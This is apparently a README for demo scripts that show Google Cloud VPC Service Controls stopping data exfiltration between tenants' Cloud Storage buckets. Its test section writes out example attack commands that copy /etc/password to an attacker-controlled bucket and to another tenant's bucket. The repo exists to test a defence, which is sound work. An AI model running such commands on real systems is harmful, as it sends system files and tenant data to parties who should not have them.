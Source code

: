 
# VPC Service Controls demo scripts

VPC Service Controls allow users to define a security perimeter around Google Cloud Platform resources such 
as Cloud Storage buckets, Bigtable instances, and BigQuery datasets to constrain data within a VPC and 
help mitigate data exfiltration risks.

This repo supports the blog describing this at ___.

In a nutshell, data exfiltration is easy via GCP Storage Buckets despite best practices to lock down networking with aggressive network egress policy. 
In order for cloud resources like VMs or Functions to access GCP Storage (other services like Cloud SQL or BigQuery also apply) the network proxy
must whitelist GCPs public dns names for the given services. This means an attacker can create a GCP Storage Bucket and exfiltrate to their own Bucket.
VPC Service Controls solve exactly this problem.

## Limitations working with VPC Service Controls
Beware that many services are currently incompatible with VPC Service Controls!
If your project uses these [listed services](https://cloud.google.com/vpc-service-controls/docs/supported-products) you
are in luck. Otherwise you may need to check back later, use separate projects for unsupported services or create access-levels.


## Tests
Let's start with what we are trying to prove. Our scripts support a multi-tenant scenario where a tenant can write to buckets in their own project and
a specific bucket in a project shared amongst all tenants.

The following approved bucket activities should succeed assuming we have ssh'd into a vm.
* Create a bucket in the tenant project
* Upload data to the tenant bucket
* Upload data to the tenant's bucket in the shared project
```
vm-in-tenant1-project> gsutil mb gs://tenant1-project-bucket
vm-in-tenant1-project> gsutil cp localfile.txt gs://tenant1-project-bucket
vm-in-tenant1-project> gsutil cp localfile.txt gs://tenant1-shared-project-bucket --project $SHARED_PROJECT_ID --region $REGION
```

The following malicious exfiltration and tampering activities should fail
* Upload malicious data to another tenant's bucket in the shared project
* Exfiltrate data to a victim tenant bucket in the shared project
* Ingress/Egress to any internet endpoint outside of the VPC
```
vm-in-tenant1-project> gsutil cp /etc/password gs://attacker-controlled-project-bucket
vm-in-tenant1-project> gsutil cp /etc/password gs://tenat2-shared-project-bucket
vm-in-tenant1-project> curl -X GET www.google.com
```
